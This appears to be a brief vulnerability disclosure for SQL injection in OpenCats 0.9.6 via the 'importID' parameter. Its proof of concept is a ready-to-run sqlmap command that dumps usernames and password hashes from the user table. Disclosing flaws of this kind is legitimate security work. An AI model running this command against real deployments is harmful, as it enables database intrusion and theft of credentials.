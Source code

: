 # SQL injection vulnerability in OpenCats 'Import viewerrors' functionality.

OpenCats version 0.9.6 PHP7.2 suffers from SQL injection vulnerability. This allows attackers control over the application's database.

User has control over data that gets passed inside SQL query, which allows SQL injection in SELECT statement via GET 'importID' parameter.

#Poc
Decided to test this with sqlmap. Let's exfiltrate username and password hashes from the database.  

```
sqlmap -u "http://192.168.203.135/opencats/index.php?m=import&a=viewerrors&importID=1" --cookie="CATS=cl2201l24aihqlnch0jgnr4pd2" -T user -C user_id,user_name,password -p "importID" --flush-session --dump
```

https://user-images.githubusercontent.com/57464251/193700025-eea03a93-4b73-4b44-8a38-d93913954a59.mp4
